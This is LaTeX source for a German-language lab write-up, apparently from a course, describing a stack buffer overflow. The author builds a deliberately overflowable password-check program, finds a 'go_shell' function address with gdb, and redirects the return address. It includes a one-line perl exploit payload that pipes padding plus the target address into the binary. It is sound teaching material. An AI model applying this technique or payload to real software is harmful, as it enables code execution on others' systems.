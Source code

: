 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Vorgehensweise}
\begin{itemize}
\item \textbf{Code versehen}\\
Passwortabfrage innerhalb einer Funktion mit char-Feld, das einen Überlauf ermöglicht. Ziel: Rücksprungadresse der Funktion mit der einer anderen überschreiben.
\item \textbf{Compilieren}\\
\texttt{gcc -g overflow.c}
\item Zum Test einen Überlauf erzeugen, der zu einem Absturz führt (siehe Screenshot \ref{a4_0} auf Seite \pageref{a4_0}).
\item \textbf{Erwünschte Rücksprungadresse ermitteln}\\
\texttt{gdb -q a.out}\\
\texttt{disas go\_shell} $\rightarrow$ \texttt{0x080484d4}\\
(Siehe auch Screenshot \ref{a4_1} auf Seite \pageref{a4_1}
\item Betrachten des Stack-Layouts um zu ermitteln, wie weit das char-Feld überschrieben werden muss (siehe Screenshot \ref{a4_2} auf Seite \pageref{a4_2})
\item Exploit zur Kontrolle innerhalb von gdb durchführen (siehe Screenshot \ref{a4_3} auf Seite \pageref{a4_3})\\
Oder alternativ direkt: \texttt{perl -e 'print "A"x76; print "\textbackslash xd4\textbackslash x84\textbackslash x04\textbackslash x08"' | ./a.out}.
\end{itemize}
\begin{figure}[h!]
  \caption{Absturz durch manuelle Eingabe}
  \label{a4_0}
  \centering
    \includegraphics[scale=0.5]{a4_0.png}
\end{figure}
\begin{figure}[h!]
  \caption{Ermitteln der erwünschten Rücksprungadresse}
  \label{a4_1}
  \centering
    \includegraphics[scale=0.5]{a4_1.png}
\end{figure}
\end{document}
